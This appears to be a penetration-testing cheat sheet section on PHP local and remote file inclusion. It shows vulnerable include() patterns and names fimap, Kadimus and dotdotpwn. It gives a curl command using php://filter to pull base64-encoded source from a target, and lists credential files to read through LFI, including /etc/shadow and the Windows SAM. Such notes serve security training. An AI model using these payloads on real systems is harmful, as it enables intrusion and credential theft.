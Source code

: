 ## File Inclusion Vulnerabilities

- Local (LFI) and remote (RFI) file inclusion vulnerabilities are
      commonly found in poorly written PHP code.

- fimap - There is a Python tool called fimap which can be
      leveraged to automate the exploitation of LFI/RFI
      vulnerabilities that are found in PHP (sqlmap for LFI):  
      [*https://github.com/kurobeats/fimap*](https://github.com/kurobeats/fimap)

  - Gaining a shell from phpinfo()  
          fimap + phpinfo() Exploit - If a phpinfo() file is present,
          it’s usually possible to get a shell, if you don’t know the
          location of the phpinfo file fimap can probe for it, or you
          could use a tool like OWASP DirBuster.

- For Local File Inclusions look for the include() function in PHP
      code.

      ```php  
      include("lang/".$_COOKIE['lang']);  
      include($_GET['page'].".php");
      ```

- LFI - Encode and Decode a file using base64  

      ```shell
      curl -s \
      "http://$ip/?page=php://filter/convert.base64-encode/resource=index" \
      | grep -e '\[^\\ \]\\{40,\\}' | base64 -d
      ```

- There is a tool called Kadimus to test LFI too

- dotdotpwn is another tool to test for LFI

- LFI - Download file with base 64 encoding  
      [*http://$ip/index.php?page=php://filter/convert.base64-encode/resource=admin.php*](about:blank)

- LFI Linux Files:  
      /etc/issue  
      /proc/version  
      /etc/profile  
      /etc/passwd  
      /etc/passwd  
      /etc/shadow  
      /root/.bash_history  
      /var/log/dmessage  
      /var/mail/root  
      /var/spool/cron/crontabs/root

- LFI Windows Files:  
      %SYSTEMROOT%\\repair\\system  
      %SYSTEMROOT%\\repair\\SAM  
      %SYSTEMROOT%\\repair\\SAM  
      %WINDIR%\\win.ini  
      %SYSTEMDRIVE%\\boot.ini  
      %WINDIR%\\Panther\\sysprep.inf  
      %WINDIR%\\system32\\config\\AppEvent.Evt
